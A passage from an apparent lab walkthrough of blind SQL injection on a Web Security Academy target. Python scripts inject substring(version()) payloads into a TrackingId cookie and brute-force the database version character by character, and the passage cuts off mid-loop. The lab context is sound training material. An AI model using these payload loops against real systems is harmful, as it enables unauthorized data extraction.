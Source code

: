 ```python
if re.search(r"Welcome back!", r.text):
	print("True")
else:
	print("False")
```

Testing this with `1=2` and `1=1` returns the correct result. Then, I tried to enumerate the type of database via `substring` brute force of `@@version` and `version()`:

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aa80019039dbe768097177d00ff001d'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()

for j in string.printable[:-10]:
	payload = f"' AND substring(version(), 1, 1) = '{j}'--"
	cookies = {
		'session': f'{COOKIE}',
		'TrackingId':'mAtlrZn449A7Xotk' + payload
	}
	print(payload)
	r = s.get(url, cookies=cookies, proxies=proxies, verify=False)
	if re.search(r"Welcome back!", r.text):
		print("True")
		break
	else:
		pass
```

The above returned True for the character 'P', confirming this is PostgreSQL. Afterwards, I added a loop to make it brute force everything:

```python
import requests
import re
import sys
import string
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0aa80019039dbe768097177d00ff001d'
COOKIE = 'cookie'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
i = 1
url = f'https://{HOST}.web-security-academy.net/'
s = requests.Session()
while True:
	done = True
	for j in string.printable[:-10]:
		payload = f"' AND substring(version(),{i},1) = '{j}'--"
		cookies = {
			'session': f'{COOKIE}',
			'TrackingId':'mAtlrZn449A7Xotk' + payload
		}
```